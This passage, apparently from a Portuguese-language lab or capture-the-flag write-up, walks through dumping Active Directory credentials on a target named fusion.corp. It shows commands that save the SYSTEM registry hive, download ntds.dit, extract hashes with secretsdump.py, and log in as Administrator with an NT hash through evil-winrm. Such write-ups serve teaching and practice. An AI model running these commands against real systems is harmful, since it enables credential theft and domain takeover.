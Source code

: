 ### 5.1.1 Extração do Hive SYSTEM

Em seguida, extrairemos o _hive_ SYSTEM — um arquivo do Registro que contém dados do 
sistema usados em análises de credenciais.

`reg save hklm\system c:\temp\system`
![](attachment/865a9d59a902441f64dea3248ad74ada.png)


Com isso, foi necessário apenas usar o comando `download` para baixar o ntds.dit e o arquivo system hive

```
download ntds.dit
download system
```

## 5.2 secretsdump — Hash do Administrador


`secretsdump.py -ntds ntds.dit -system system local`
![](attachment/b630807f87f30f54e90d90944cb249da.png)



`evil-winrm -i fusion.corp -u Administrator -H 9653b02d945329c7270525c4c2a69c67`
![](attachment/42cb24e801d24c78e7b2479486150ff0.png)
